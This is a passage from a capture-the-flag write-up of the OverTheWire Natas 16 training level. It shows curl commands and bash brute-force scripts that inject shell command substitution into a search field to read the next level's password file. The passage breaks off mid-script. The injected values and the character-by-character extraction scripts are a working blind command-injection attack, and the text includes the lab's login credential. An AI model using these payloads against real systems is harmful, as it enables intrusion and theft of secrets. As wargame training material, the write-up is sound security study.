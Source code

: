 I have an awful idea...

```
abs@MacBookPro OverTheWire % curl "natas16.natas.labs.overthewire.org/" -u natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo -s -d "needle=\$(grep 3 /etc/natas_webpass/natas17)hello&submit="
Output:
<pre>
hello
hello's
hellos
</pre>
```

Let's do some scripting:
```
#!/bin/bash

CHARS="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
URL="natas16.natas.labs.overthewire.org"
LOGIN="natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"
PASS=""

for char in $(echo $CHARS | fold -w1); do
	OUT=$(curl $URL -u $LOGIN -s -d "needle=\$(grep $char /etc/natas_webpass/natas17)hello&submit=" | grep "hellos" | wc -l)
	if [ "$OUT" -eq 0 ]; then
		PASS+=$char
		echo "pass so far: $PASS"
	fi
done

echo "Password for natas16: $PASS"
```

The chars used in the password are:

```
abs@MacBookPro OverTheWire % ./brute_force_natas16.sh
Password for natas16: bhjkoqsvwCEFHJLNOT05789
```

I need to know what is the first char in the passowrd, so I could bruteforce it...

```
abs@MacBookPro OverTheWire % curl "natas16.natas.labs.overthewire.org/" -u natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo -s -d "needle=\$(cut -c 1 /etc/natas_webpass/natas17)&submit=" | grep  -x .
E
```

So, it is either e or E, but the chars are bhjkoqsvwCEFHJLNOT05789 so it starts with E !!!

Let's do the bruteforcing:
```
#!/bin/bash

CHARS="bhjkoqsvwCEFHJLNOT05789"
URL="natas16.natas.labs.overthewire.org"
LOGIN="natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"
PASS="E"
PASS_LEN=31


for pos in $(seq 1 $PASS_LEN); do
	for char in $(echo $CHARS | fold -w1); do
		TMP=$PASS
		TMP+=$char
		OUT=$(curl $URL -u $LOGIN -s -d "needle=\$(grep $TMP /etc/natas_webpass/natas17)hello&submit=" | grep "hellos" | wc -l)
		if [ "$OUT" -eq 0 ]; then
```